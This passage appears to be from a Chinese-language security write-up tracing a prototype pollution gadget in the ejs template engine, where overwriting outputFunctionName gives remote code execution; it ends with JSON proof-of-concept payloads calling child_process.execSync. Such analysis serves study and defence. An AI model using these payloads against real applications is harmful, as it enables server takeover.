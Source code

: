 那我们就有一个可以污染的口子, 在 app.js 里可以得知使用的是 ejs 模板引擎

```
app.engine('html', require('ejs').__express); 
app.set('view engine', 'html');
```

ejs 的 renderFile 进入

```
exports.renderFile = function () `{`
...
return tryHandleCache(opts, data, cb);
`}`;
```

跟进 tryHandleCache 函数, 发现一定会进入 handleCache 函数

[![](https://p5.ssl.qhimg.com/t01f8e9fb7fe3077a21.png)](https://p5.ssl.qhimg.com/t01f8e9fb7fe3077a21.png)

跟进 handleCache 函数

```
function handleCache(options, template) `{`
...
    func = exports.compile(template, options);
...
`}`
```

然后跟进 complie 函数, 会发现有大量的渲染拼接

[![](https://p3.ssl.qhimg.com/t0125788ae9473eea13.png)](https://p3.ssl.qhimg.com/t0125788ae9473eea13.png)

如果能够覆盖 `opts.outputFunctionName` , 这样我们构造的payload就会被拼接进js语句中，并在 ejs 渲染时进行 RCE

```
prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
// After injection
prepended += ' var __tmp1; return global.process.mainModule.constructor._load('child_process').execSync('dir'); __tmp2 = __append;'
// 拼接了命令语句
```

在污染了原型链之后, 渲染直接变成了执行代码, 经过 return 体前返回, 即可 getshell, POC 如下

```
`{`"__proto__":`{`"__proto__":`{`"outputFunctionName":"a=1; return global.process.mainModule.constructor._load('child_process').execSync('dir'); //"`}``}``}`

`{`"__proto__":`{`"__proto__":`{`"outputFunctionName":"__tmp1; return global.process.mainModule.constructor._load('child_process').execSync('dir'); __tmp2"`}``}``}`
```

进行 copy 函数后, 此时 `outputFunctionName` 已经在全局变量中被复制了, 可以在 Global 的 `__proto__` 的 `__proto__` 的 `__proto__` 下找到我们的污染链

[![](https://p5.ssl.qhimg.com/t01e1a5a9690dcbd9c0.png)](https://p5.ssl.qhimg.com/t01e1a5a9690dcbd9c0.png)
